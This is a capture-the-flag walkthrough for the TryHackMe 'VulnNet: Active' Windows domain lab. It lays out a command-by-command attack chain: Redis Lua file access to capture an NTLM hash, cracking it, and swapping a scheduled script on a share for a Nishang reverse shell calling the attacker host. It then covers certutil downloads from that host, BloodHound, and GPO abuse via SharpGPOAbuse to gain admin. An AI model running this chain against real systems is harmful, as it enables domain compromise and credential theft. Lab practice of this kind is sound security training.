# VulnNet: Active

**Room Link:** [https://tryhackme.com/r/room/vulnnetactive](https://tryhackme.com/r/room/vulnnetactive)

## **Scans** <a href="#scans" id="scans"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (873).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

## **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (874).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

No results. Couldn't login anonymously.&#x20;

**Kali**

```
smbclient -L //$VICTIM/ 
```

## **TCP/6379 - Redis** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

Added active.thm

**Kali**

```
redis-cli -h active.thm
```

**Kali(redis-cli)**

```
config get *
```

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (879).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
responder -I ens5 -dvw  
```

**Kali(redis-cli)**

```
eval "dofile('//$KALI/share')" 0
```

<figure><img src="../../.gitbook/assets/image (880).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

**Kali**

```
smbclient -L //$VICTIM/ -U enterprise-security
Password: sand_0873959498
```

<figure><img src="../../.gitbook/assets/image (882).png" alt=""><figcaption></figcaption></figure>

#### Download files <a href="#download-files-1" id="download-files-1"></a>

**Kali**

```
smbclient \\\\$VICTIM\\Enterprise-Share -U enterprise-security
Password: sand_0873959498
```

**Kali(smbclient)**

```
ls
mget *
```

<figure><img src="../../.gitbook/assets/image (883).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat PurgeIrrelevantData_1826.ps1
```

<figure><img src="../../.gitbook/assets/image (885).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Kali**

```
git clone https://github.com/samratashok/nishang.git
cd nishang/Shells/
subl Invoke-PowerShellTcp.ps1
```

**Kali(subl)**

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 4444
```

<figure><img src="../../.gitbook/assets/image (884).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cp Invoke-PowerShellTcp.ps1 PurgeIrrelevantData_1826.ps1
```

**Upload payload**

**Kali(smbclient)**

```
put PurgeIrrelevantData_1826.ps1
```

After a few moments we get a connection

**Kali**

<pre><code><strong>rlwrap nc -lvnp 4444
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (886).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation&#x20;

### Download SharpHound PS1

This failed because when running the script it would just hang and I had to reset the server. So After I tried with the exe.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.ps1 .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.ps1 SharpHound.ps1
powershell -ep bypass
.\SharpHound.ps1 
```

### Download SharpHound EXE

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.exe SharpHound.exe
SharpHound.exe
```

### **Transfer results to Kali**

**Victim(Powershell)**

```
copy 20240405092615_BloodHound.zip C:\Enterprise-Share\
```

**Kali(smbclient)**

```
get 20240405092615_BloodHound.zip
```

### BloodHound  <a href="#bloodhound-installation" id="bloodhound-installation"></a>

**Kali #1**

```
neo4j console
```

**Kali #2**

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Find Shortest Paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our user enterprise-security has write access to the GPO called "SECURITY-POL-VN"

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SharpGPOAbuse

**Kali**

```
git clone https://github.com/byronkg/SharpGPOAbuse.git
cp SharpGPOAbuse/SharpGPOAbuse-master/SharpGPOAbuse.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpGPOAbuse.exe SharpGPOAbuse.exe
```



This task is running one command which is to add our user enterprise-security to the administrator group

**Victim(Powershell)**

```
 .\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```

<figure><img src="../../.gitbook/assets/image (888).png" alt=""><figcaption></figcaption></figure>

After the change is successful we just need to push the GPU for it to work.

**Victim(Powershell)**

```
 gpupdate /force
```

<figure><img src="../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
psexec.py enterprise-security:sand_0873959498@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


